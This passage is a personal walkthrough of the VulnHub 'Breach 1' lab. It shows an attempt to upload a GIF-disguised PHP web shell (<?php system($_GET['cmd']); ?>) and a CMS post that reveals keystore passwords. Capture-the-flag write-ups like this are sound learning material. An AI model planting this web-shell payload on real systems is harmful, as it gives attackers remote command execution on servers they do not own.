 - Try to upload malicious image, but there's size limitation
```bash
┌──(htb㉿kali)-[~/VulnHub/Breach1]
└─$ file evil.gif
evil.gif: GIF image data, version 89a, 2619 x 16188

┌──(htb㉿kali)-[~/VulnHub/Breach1]
└─$ cat evil.gif
GIF89a;
<?php system($_GET["cmd"]); ?>
```
![Pasted image 20210422153523.png](Pasted%20image%2020210422153523.png)
- Nothing anymore around, but by clicking around, found that the content menu can be expanded
![Pasted image 20210422155247.png](Pasted%20image%2020210422155247.png)
- Then there's a post:
	- http://192.168.110.140/impresscms/\_SSL\_test\_phase1.pcap
	- They told me the alias, storepassword and keypassword are all set to 'tomcat'. 
```
# SSL implementation test capture [![Edit](http://192.168.110.140/impresscms/images/kfaenza/actions/edit.png "Edit")](http://192.168.110.140/impresscms/modules/content/content.php?op=mod&content_id=1) [![Delete](http://192.168.110.140/impresscms/images/kfaenza/actions/editdelete.png "Delete")](http://192.168.110.140/impresscms/modules/content/content.php?op=del&content_id=1) 

Published by [Peter Gibbons](http://192.168.110.140/impresscms/modules/content/index.php?uid=2) on 2016/6/4 21:37:05. (0 reads)

```